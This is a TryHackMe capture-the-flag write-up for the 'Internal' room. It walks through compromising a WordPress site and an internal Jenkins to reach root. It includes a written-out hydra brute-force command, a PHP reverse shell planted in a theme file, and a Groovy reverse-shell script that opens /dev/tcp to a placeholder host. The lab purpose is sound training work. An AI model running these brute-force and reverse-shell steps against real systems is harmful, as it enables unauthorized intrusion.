 ```yaml
---
title: "Internal"
date: 2024-03-13
draft: false
description: TryHackMe's Good Room
Tags:
- TryHackMe
- Linux
- Medium
---
```




## Enumeration

Lets start with the simple nmap and rustscan.
```
nmap -sVC 10.10.131.133             
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-13 12:18 +0545
Nmap scan report for internal.thm (10.10.131.133)
Host is up (0.19s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
22/tcp open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
49/tcp filtered tacacs
80/tcp open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.10 seconds
```

Lets enumerate port 80.
![](Pasted%20image%2020250313122042.png)

Lets also do a directory busting.

![](Pasted%20image%2020250313122333.png)

Lots of thing.
Specially `/wordpress`.
Hmmm a wordpress site.
![](Pasted%20image%2020250313122728.png)
Lets use wpscan.
Lets enumerate.
![](Pasted%20image%2020250313123254.png)

We found the user admin.
Lets also try to crack password by rockyou.txt.

And got the password by bruteforce.

![](Pasted%20image%2020250313124551.png)

`Username: admin, Password: my2boys`

![](Pasted%20image%2020250313124635.png)

## Foothold

Lets do it.
![](Pasted%20image%2020250313124749.png)

We can now edit 404.php and execute our rev shell.

![](Pasted%20image%2020250313125813.png)

Lets add a php rev shell.
![](Pasted%20image%2020250313130120.png)

And we can trigger it.
`http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php`

![](Pasted%20image%2020250313130256.png)
We got the shell.

## privilege escalation

Lets enumerate further.
![](Pasted%20image%2020250313130435.png)

We got the full tty shell.
And a password for user `aubreanna`.
![](Pasted%20image%2020250313130615.png)

We got the pass.
`aubreanna:bubb13guM!@#123`

Lets so ssh.

![](Pasted%20image%2020250313130735.png)

## Pivoting

And got something interesting.
![](Pasted%20image%2020250313130916.png)

Hmm lets enumerate.
![](Pasted%20image%2020250313131137.png)


Lets also enumerate mysql.

![](Pasted%20image%2020250313131217.png)

```
wp-config.php files found:                                                                                                                                              
/var/www/html/wordpress/wp-config.php
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'wordpress123' );
define( 'DB_HOST', 'localhost' );

```

![](Pasted%20image%2020250313131434.png)
![](Pasted%20image%2020250313131605.png)

But nothing,lets forward that port `8080` of `172.17.0.2`  to our machine.

Lets forward the port to my machine.
`ssh -L 8000:172.17.0.2:8080 aubreanna@internal.thm`

So here we gonna use ssh and forward `172.17.0.2:8080` to my machine in port 8000.
![](Pasted%20image%2020250313132045.png)
Lets enumerate this.
But the password from before didn't worked.
`aubreanna:bubb13guM!@#123`

Hmm lets see.

![](Pasted%20image%2020250313142721.png)

![](Pasted%20image%2020250313151838.png)

```
root      1424  0.0  0.1 404800  3404 ?        Sl   06:32   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8080 -container-ip 172.17.0.2 -container-port 8080
root      1438  0.0  0.2   9364  5356 ?        Sl   06:32   0:00 containerd-shim -namespace moby -workdir /var/lib/containerd/io.containerd.runtime.v1.linux/moby/7b979a7af7785217d1c5a58e7296fb7aaed912c61181af6d8467c062151e7fb2 -address /run/containerd/containerd.sock -containerd-binary /usr/bin/containerd -runtime-root /var/run/docker/runtime-runc
aubrean+  1477  0.0  0.0   1148     4 ?        Ss   06:32   0:00 /sbin/tini -- /usr/local/bin/jenkins.sh
aubrean+  1522  2.3 22.4 2764040 457612 ?      Sl   06:32   4:13 java -Duser.home=/var/jenkins_home -Djenkins.model.Jenkins.slaveAgentPort=50000 -jar /usr/share/jenkins/jenkins.war

```


But nothing lets try to bruteforcing the password with admin user.
![](Pasted%20image%2020250313152540.png)


```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 8000 http-form-post '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=Invalid'

```

And it worked.
![](Pasted%20image%2020250313153227.png)

`spongebob`
We got the password.

Lets login.
![](Pasted%20image%2020250313153310.png)

Lets enumerate this.
![](Pasted%20image%2020250313153939.png)
![](Pasted%20image%2020250313154002.png)

I don't know how to write a script to get rev shell in [Groovy script](http://www.groovy-lang.org)
So I will use chatGPT.

And it is.
```groovy
String host = "ip";
int port = port;
String cmd = "/bin/bash";

Process proc = new ProcessBuilder(cmd, "-c", "exec 5<>/dev/tcp/" + host + "/" + port + ";cat <&5 | while read line; do \$line 2>&5 >&5; done").start();
proc.waitFor();

```

And we got the shell.
![](Pasted%20image%2020250313154757.png)

![](Pasted%20image%2020250313155005.png)

## Escape

Now lets enumerate.
After checking some file we got this hash but its useless and didn't worked.
```
<passwordHash>#jbcrypt:$2a$10$MDKawySp3DRfUrrKFrBAe.o2D4qCzIJJaPpRfc3u2CR/w.NzbJjqe</passwordHash>
```

After sometime,we got `note.txt` in `/opt`.
![](Pasted%20image%2020250313163359.png)
`root:tr0ub13guM!@#123`

We got the root password but not on this machine.
We can again go to our main machine and get root shell.
![](Pasted%20image%2020250313164605.png)

## Done
And done.
![](Pasted%20image%2020250313163557.png)

Learned lots of thing again with this room.
I hope you enjoyed this.


## Refs
[tty shell](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/full-ttys.html)
[revshell](https://www.revshells.com/)
